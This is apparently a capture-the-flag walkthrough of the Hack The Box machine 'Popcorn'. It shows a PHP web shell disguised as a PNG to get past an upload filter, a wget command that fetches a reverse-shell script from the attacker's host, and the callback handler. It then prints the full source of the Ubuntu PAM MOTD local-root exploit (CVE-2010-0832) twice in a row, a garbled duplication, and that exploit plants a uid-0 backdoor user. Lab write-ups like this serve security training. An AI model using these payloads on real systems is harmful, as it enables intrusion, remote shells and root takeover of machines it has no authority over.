{kind=link}
popcorn

nmap
nmap -sV -sC -oA nmap 10.10.10.6
http

dirbuster
/test
some interesting configuration settings can be viewed here but nothing substantial to getting a foothold on the box



/torrent
the /torrent directory can host torrents and luckily we see theres an “upload” button!
register
lets sign up in order to use to torrent server's upload capabililties(if the site requires email verification we can make a sharklasers temporary account if it comes to that)


foothold
upload save directory
in the /torrent/upload directory is where the upload pictures files are stored:

save one of the .png files to our directory

upload noss.png
first, lets fire up burp suite and test out popcorn's upload feature

we need to upload a torrent file, lets download the torrent file that admin hosted and reupload that, from there we should be able to upload a picture we can attach to our torrent upload
kali torrent dl and upload (fail)



lets copy it from downloads to our working directory:

and upload it :

turns out the server doesn't accept duplicate torrent files...

test.torrent (fail)
lets see if we can simply add the .torrent suffix to a file to trick the server into believing it is a legitamate torrent file, if not we'll just have to find a real one...
no luck, lets find a torrent file

torrent file (success)
finding a legit torrent file from my windows machine, you can find yourself a legitimate torrent online or check out ippsec's popcorn video https://www.youtube.com/watch?v=NMGsnPSm8iw for suggestions


success!

finally! now the trick here is to check out the edit this torrent link
edit this torrent/change screenshot
we get a popup with a similar format to our torrent file uploader but this allows picture files
lets intercept the upload in burp suite:

now send this to repeater with the ctrl+r keybind, and you'll be able to manipulate the upload packet you just sent to the server:
Repeater simple php code injection
now we're going to take advantage of the server's poor file suffix sanitation check and upload a cmd.php and simply append a php command execution script at the very end of our .png magic byte sequence in order to trick the server into uploading our file to its /upload directoryin repeater we tweak 2 things: our filename

and our picture metadata to add <?php echo system($_REQUEST[st0ve]); ?> to allow Remote code execution once we visit the uploaded file


since the uploader doesn't check for file suffixes we can use what're known as ‘magic bytes’ which are the first line or two of special characters linux uses to decipher file types

navigating to our .php file and setting our st0ve parameter to whoami yields:

command execution!

intercepting the web request on burp suite is a little easier to work with:


wget tcp_pty_handler
lets set our cmd ‘st0ve’ as a wget grabbing our tcp shell script and name it rev.py:but first lets spin up our http server:

st0ve=wget 10.10.14.62/tcp_pty_backconnect.py -O /dev/shm/rev.py


we can check the file by using cat /dev/shm/.rev.py


reverse shell
to run: st0ve=python /dev/shm/rev.py
connect back: sudo python tcp_pty_shell_handler.py -b 10.10.14.62:31337

and we have our foothold!
Privesc
lets snoop around both the /var/www directory or the /home directory since neither of those directories have files in them that are baseline/normal for a linux box to have without a user putting them there to begin with

after doing some digging on potential exploits on these files,
 sticks out
sticks outlse.sh
lse.sh or linux smart enumeration bash script is a personal favorite of mine when it comes to enumerating potential privilege escalation vulnerabilites in linux boxes, lets see what it reports back to us about this box,I'll list everything that is interesting but will eventually follow ippsec's priv esc method in the next node
we can check our own box against this one to find SUID binaries that are irregular on this box and search them up on GTFO bins to see if theres a way to take advantage of them to privesc

according to this find there are ways to hijack executable paths that can potentiall call reverse shells back to our attack machine

we can also read a couple files that www-data does not own
 comes to mind which may show past commands other users have typed in that may allow us to steal and use to priv esc
comes to mind which may show past commands other users have typed in that may allow us to steal and use to priv esc
MotD Privesc


something fails here

but if we copy over the raw code from exploitdb at https://www.exploit-db.com/raw/14339 to a file, it works fine

14339.sh

here's a copy of the exploit source for reference:



14339.sh raw code

#!/bin/bash
#
# Exploit Title: Ubuntu PAM MOTD local root
# Date: July 9, 2010
# Author: Anonymous
# Software Link: http://packages.ubuntu.com/
# Version: pam-1.1.0
# Tested on: Ubuntu 9.10 (Karmic Koala), Ubuntu 10.04 LTS (Lucid Lynx)
# CVE: CVE-2010-0832
# Patch Instructions: sudo aptitude -y update; sudo aptitude -y install libpam~n~i
# References: http://www.exploit-db.com/exploits/14273/ by Kristian Erik Hermansen
#
# Local root by adding temporary user toor:toor with id 0 to /etc/passwd & /etc/shadow.
# Does not prompt for login by creating temporary SSH key and authorized_keys entry.
#
# user@ubuntu:~$ bash ubuntu-pam-motd-localroot.sh
# [*] Ubuntu PAM MOTD local root
# [*] Backuped /home/user/.ssh/authorized_keys
# [*] SSH key set up
# [*] Backuped /home/user/.cache
# [*] spawn ssh
# [+] owned: /etc/passwd
# [*] spawn ssh
# [+] owned: /etc/shadow
# [*] Restored /home/user/.cache
# [*] Restored /home/user/.ssh/authorized_keys
# [*] SSH key removed
# [+] Success! Use password toor to get root
# Password:
# root@ubuntu:/home/user# id
# uid=0(root) gid=0(root) groupes=0(root)
#
P='toor:x:0:0:root:/root:/bin/bash'
S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
echo "[*] Ubuntu PAM MOTD local root"
[ -z "$(which ssh)" ] && echo "[-] ssh is a requirement" && exit 1
[ -z "$(which ssh-keygen)" ] && echo "[-] ssh-keygen is a requirement" && exit 1
[ -z "$(ps -u root |grep sshd)" ] && echo "[-] a running sshd is a requirement" && exit 1
backup() {
[ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
[ -e "$1" ] || return 0
mv "$1"{,.bak} || return 1
echo "[*] Backuped $1"
}
restore() {
[ -e "$1" ] && rm -rf "$1"
[ -e "$1".bak ] || return 0
mv "$1"{.bak,} || return 1
echo "[*] Restored $1"
}
key_create() {
backup ~/.ssh/authorized_keys
ssh-keygen -q -t rsa -N '' -C 'pam' -f "$KEY" || return 1
[ ! -d ~/.ssh ] && { mkdir ~/.ssh || return 1; }
mv "$KEY.pub" ~/.ssh/authorized_keys || return 1
echo "[*] SSH key set up"
}
key_remove() {
rm -f "$KEY"
restore ~/.ssh/authorized_keys
echo "[*] SSH key removed"
}
own() {
[ -e ~/.cache ] && rm -rf ~/.cache
ln -s "$1" ~/.cache || return 1
echo "[*] spawn ssh"
ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
[ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
echo "[+] owned: $1"
}
bye() {
key_remove
exit 1
}
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
#
# Exploit Title: Ubuntu PAM MOTD local root
# Date: July 9, 2010
# Author: Anonymous
# Software Link: http://packages.ubuntu.com/
# Version: pam-1.1.0
# Tested on: Ubuntu 9.10 (Karmic Koala), Ubuntu 10.04 LTS (Lucid Lynx)
# CVE: CVE-2010-0832
# Patch Instructions: sudo aptitude -y update; sudo aptitude -y install libpam~n~i
# References: http://www.exploit-db.com/exploits/14273/ by Kristian Erik Hermansen
#
# Local root by adding temporary user toor:toor with id 0 to /etc/passwd & /etc/shadow.
# Does not prompt for login by creating temporary SSH key and authorized_keys entry.
#
# user@ubuntu:~$ bash ubuntu-pam-motd-localroot.sh
# [*] Ubuntu PAM MOTD local root
# [*] Backuped /home/user/.ssh/authorized_keys
# [*] SSH key set up
# [*] Backuped /home/user/.cache
# [*] spawn ssh
# [+] owned: /etc/passwd
# [*] spawn ssh
# [+] owned: /etc/shadow
# [*] Restored /home/user/.cache
# [*] Restored /home/user/.ssh/authorized_keys
# [*] SSH key removed
# [+] Success! Use password toor to get root
# Password:
# root@ubuntu:/home/user# id
# uid=0(root) gid=0(root) groupes=0(root)
#
P='toor:x:0:0:root:/root:/bin/bash'
S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
echo "[*] Ubuntu PAM MOTD local root"
[ -z "$(which ssh)" ] && echo "[-] ssh is a requirement" && exit 1
[ -z "$(which ssh-keygen)" ] && echo "[-] ssh-keygen is a requirement" && exit 1
[ -z "$(ps -u root |grep sshd)" ] && echo "[-] a running sshd is a requirement" && exit 1
backup() {
[ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
[ -e "$1" ] || return 0
mv "$1"{,.bak} || return 1
echo "[*] Backuped $1"
}
restore() {
[ -e "$1" ] && rm -rf "$1"
[ -e "$1".bak ] || return 0
mv "$1"{.bak,} || return 1
echo "[*] Restored $1"
}
key_create() {
backup ~/.ssh/authorized_keys
ssh-keygen -q -t rsa -N '' -C 'pam' -f "$KEY" || return 1
[ ! -d ~/.ssh ] && { mkdir ~/.ssh || return 1; }
mv "$KEY.pub" ~/.ssh/authorized_keys || return 1
echo "[*] SSH key set up"
}
key_remove() {
rm -f "$KEY"
restore ~/.ssh/authorized_keys
echo "[*] SSH key removed"
}
own() {
[ -e ~/.cache ] && rm -rf ~/.cache
ln -s "$1" ~/.cache || return 1
echo "[*] spawn ssh"
ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
[ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
echo "[+] owned: $1"
}
bye() {
key_remove
exit 1
}
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
root
run a quick wget command to download our MOTD exploit onto our victim box

and we're root!